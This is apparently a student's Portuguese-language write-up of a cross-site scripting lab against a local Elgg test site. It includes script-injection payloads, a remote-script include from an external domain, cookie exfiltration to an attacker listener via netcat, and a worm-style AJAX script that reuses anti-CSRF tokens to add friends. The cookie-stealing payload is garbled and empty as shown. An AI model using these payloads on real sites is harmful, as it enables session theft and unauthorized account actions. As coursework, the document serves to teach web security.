

# Trabalho realizado na Semana #10  - Cross_Site_Scripting

## Setup

- Depois de fazer setup com **docker-compose** tivemos que conhecer melhor o add-on do firefox **HTTP Header Live** 


## Tarefa 1

- Para fazer um ataque XSS, de maneira a que, cada vez que um utilizador visite o perfil do 'Boby' digamos, execute um programa de **JavaScript**, apenas foi preciso inserir o seguinte codigo na 'brief description' para confirmar que era possivel

```html
<script> alert("XSS vulnerability here..."); </script>
```


- Caso se tratasse de um bloco de codigo com maiores dimensoes o formulario poderia limitar o nr de caracteres, entao, para dar a volta a esta situaçao, era possivel ir buscar o codigo a outro site de um dominio nosso, da seguinte forma:

```html
<script type="text/javascript"
  src="http://www.example.com/myscripts.js">
</script>
```
  

## Tarefa 2

- Procedendo de forma similar obtivemos a cookie no alerta

```html
<script>alert(document.cookie);</script>
```

  
  
## Tarefa 3  

- Agora o objetivo e´ conseguir enviar a cookie para o atacante, sempre que se visitar o perfil, para isso inserimos o seguinte script na short description

```html
<script>
document.write(
  ’’
  );
</script>
```

- Este script insere uma \ com o atributo **src** a apontar para a maquina do atacante. Quando o JavaScript insere a imagem, o browser tenta carrega-la a partir do URL dado, que resulta num pedido **GET**.

- Usando netcat e escutando na porta 5555 obtivemos o seguinte output:

  

## Tarefa 4

- Para tentar replicar um ataque semelhante ao "Samy Worm" que ocorreu no Myspace, primeiro tentamos perceber melhor o que acontecia quando se adiciona um amigo

  

- Primeiro e´ efetuado o pedido, com a cookie e os outros parametros, seguido de um pedido GET para "refrescar" a pagina

- Sabendo que o Samy tem o id 59 inserimos o seguinte script no about em **Edit HTML**


```html
<script type="text/javascript">

  window.onload = function () {

    var Ajax=null;

    // Set the timestamp and secret token parameters

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;

    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    

    //Construct the HTTP request to add Samy as a friend.

    var sendurl= "http://www.seed-server.com/action/friends/add"
    + "?friend=59" + token + ts;
    

    //Create and send Ajax request to add friend

    Ajax=new XMLHttpRequest();

    Ajax.open("GET",sendurl,true);

    Ajax.setRequestHeader("Host","www.seed-server.com");

    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");

    Ajax.send();

  }
</script>

```

- Um efeito que este script tem e notamos de imediato e´ que Samy torna-se amigo dele proprio.

- No entanto, fazendo login com outro user qualquer, no nosso caso com o Charlie, visitando o perfil deste hacker e sem clicar no botao de add friend, quando vamos `a pagina dos nossos amigos o Sammy aparece la´




### Questao 1

Para que servem as seguintes linhas de codigo?

```js
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
```

- Sao os tokens necessarios que comprovam autenticidade da origem do pedido. Para enviar um request HTTP precisamos do **token secreto** e do valor de **timestamp** caso contrario o pedido pode nao ser considerado legitimo e o ataque falha.

### Questao 2

Se a aplicaçao apenas disponibilizasse o modo de editor para a seçao "About Me", nao seria possivel mudar para o modo de texto. Ainda assim seria possivel lançar o ataque?

- Nesse caso nao seria possivel lançar o ataque, porque os caracteres especiais sao **encoded**, por exemplo, o caracter **<** que e´ essencial para escrever a tag **script** para JS transforma-se em **&lt**

```html

<script> window.alert("hello"); </script>

// PASSA A 

<p> &lt;script&gt; window.alert("hello"); &lt;/script&gt; </p>
```